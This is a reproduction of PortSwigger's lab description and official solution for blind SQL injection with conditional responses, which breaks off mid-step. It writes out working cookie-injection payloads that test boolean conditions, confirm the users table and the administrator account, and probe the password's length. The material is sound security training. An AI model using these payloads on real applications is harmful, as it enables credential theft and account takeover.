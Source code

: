 
Guided Lab: [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

PortSwigger Description:
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

PortSwigger Solution:

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.
2. Modify the `TrackingId` cookie, changing it to:
    
    `TrackingId=xyz' AND '1'='1`
    
    Verify that the `Welcome back` message appears in the response.
    
3. Now change it to:
    
    `TrackingId=xyz' AND '1'='2`
    
    Verify that the `Welcome back` message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.
    
4. Now change it to:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
    
    Verify that the condition is true, confirming that there is a table called `users`.
    
5. Now change it to:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
    
    Verify that the condition is true, confirming that there is a user called `administrator`.
    
6. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
    
    This condition should be true, confirming that the password is greater than 1 character in length.
    
7. Send a series of follow-up values to test different password lengths. Send:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
    
    Then send:
    
